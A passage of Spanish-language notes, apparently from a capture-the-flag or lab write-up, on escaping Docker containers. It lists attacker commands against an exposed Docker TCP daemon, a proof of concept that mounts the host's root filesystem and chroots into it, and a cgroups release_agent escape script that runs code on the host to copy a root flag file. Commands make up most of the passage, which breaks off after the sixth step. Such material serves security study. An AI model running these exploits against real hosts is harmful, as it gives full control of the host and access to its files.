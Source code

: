 Operaciones útiles (desde el atacante):
- `docker -H tcp://HOST:2375 ps` — listar contenedores.
- `docker -H tcp://HOST:2375 images` — listar imágenes.
- `docker -H tcp://HOST:2375 run -v /:/mnt --rm -it alpine chroot /mnt sh` — montar el filesystem del host y chroot (si se dispone de imagen).
- `docker -H tcp://HOST:2375 exec -it <container> /bin/sh` — ejecutar comandos dentro de contenedor.

**Riesgo**: acceso total para crear/ejecutar/leer archivos del host si se abusa de `-v /:/mnt`.

---

## 4) Exploit: Montar el filesystem del host usando docker.sock / docker TCP
**Descripción**: crear un contenedor que monte `/` del host en el contenedor y usar `chroot` para "convertir" ese montaje en la raíz — así obtienes acceso al host.

Comando (PoC):
```bash
# si docker daemon remoto es accesible con docker client
docker -H tcp://10.10.69.101:2375 run -v /:/mnt --rm -it alpine sh -c "chroot /mnt sh"
```
Explicación:
- `-v /:/mnt` monta la raíz del host en `/mnt` dentro del contenedor.
- `chroot /mnt sh` cambia el root del shell al filesystem del host.

**Notas prácticas**:
- Si la imagen no existe en el host remoto, Docker intentará descargarla desde un registro — ese comportamiento puede delatar el ataque.
- En algunos hosts puede faltar `chroot` en imágenes muy pequeñas; usar `--privileged` o imágenes más completas si tienes control.

---

## 5) Exploit: cgroups `release_agent` (PoC resumido)
**Qué aprovecha**: capacidades del contenedor (p. ej. `CAP_SYS_ADMIN`, `CAP_MKNOD`) y la posibilidad de montar `cgroup` para configurar `release_agent`, que ejecuta un script cuando se libera el cgroup.

**Pasos (resumen, ejecutar **solo** en entornos controlados)**:
```bash
# 1. Crear punto de montaje de cgroup
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# 2. Habilitar ejecución al liberar el cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# 3. Obtener la ruta del directorio del host donde están los contenedores
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)

# 4. Indicar dónde estará el release_agent (ejecutable que se invocará en host)
echo "$host_path/exploit" > /tmp/cgrp/release_agent

# 5. Crear el script exploit (ej: copiar flag del host a ruta visible)
cat > /exploit <<'EOF'
#!/bin/sh
cat /root/host_flag.txt > $host_path/flag.txt
EOF
chmod +x /exploit

# 6. Poner un proceso en el cgroup (esto desencadenará la ejecución cuando el cgroup sea liberado)
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
